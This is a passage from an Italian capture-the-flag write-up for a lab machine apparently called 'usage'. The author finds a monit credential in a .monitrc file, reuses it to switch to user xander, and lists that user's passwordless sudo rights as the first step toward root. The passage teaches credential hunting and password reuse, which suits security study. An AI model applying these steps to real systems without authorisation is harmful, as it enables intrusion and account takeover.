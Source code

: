 Nella directory `/home` abbiamo la home anche di un altro utente `xander` che potrebbe avere piu privilegi di noi e consentici di diventare root.

Esplorando la home di `dash` troviamo questo file `.monitrc` diamogli un occhiata.

```bash
dash@usage:~$ cat .monitrc
#Monitoring Interval in Seconds
set daemon  60

#Enable Web Access
set httpd port 2812
     use address 127.0.0.1
     allow admin:3nc0d3d_pa$$w0rd

#Apache
check process apache with pidfile "/var/run/apache2/apache2.pid"
    if cpu > 80% for 2 cycles then alert


#System Monitoring
check system usage
    if memory usage > 80% for 2 cycles then alert
    if cpu usage (user) > 70% for 2 cycles then alert
        if cpu usage (system) > 30% then alert
    if cpu usage (wait) > 20% then alert
    if loadavg (1min) > 6 for 2 cycles then alert
    if loadavg (5min) > 4 for 2 cycles then alert
    if swap usage > 5% then alert

check filesystem rootfs with path /
       if space usage > 80% then alert
dash@usage:~$
```

sembra contenere delle credenziali proviamo ad utilizzarle per l'utente `xander`

```bash
dash@usage:/home$ su xander
Password:
xander@usage:/home$
```

# PRIVESC

Proviamo a vedere se `xander` puo eseguire qualcosa come root

```bash
xander@usage:/home$ sudo -l
Matching Defaults entries for xander on usage:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User xander may run the following commands on usage:
    (ALL : ALL) NOPASSWD: /usr/bin/usage_management
```
